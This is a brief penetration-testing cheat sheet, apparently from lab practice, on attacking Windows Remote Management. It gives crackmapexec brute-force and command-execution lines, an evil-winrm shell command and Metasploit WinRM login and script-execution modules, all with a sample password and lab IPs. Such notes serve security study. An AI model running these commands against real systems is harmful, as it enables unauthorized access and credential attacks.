 
# Overview
Windows Remote Management (WinRM)

## Ports
- 5985/5986 ports


---

# Tools
## crackmapexec
- brute force
- `crackmapexec winrm 10.2.18.45 -u administrator -p /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt`
- `crackmapexec winrm 10.2.18.45 -u administrator -p tinkerbell -x "whoami"`

---

## evil-winrm.rb
- ruby script which gets shell access
- `evil-winrm.rb -u administrator -p 'tinkerbell' -i 10.2.18.5`

---

## msfconsonle
- `search type:auxiliary winrm` : search for scanner
- `use auxiliary/scanner/winrm/winrm_login` : brute force
- `use exploit/windows/winrm/winrm_script_exec`
	- `set rhosts addr`
	- `set force_vbs true`
	- `set username administrator`
	- `set password tinkerbell`
- 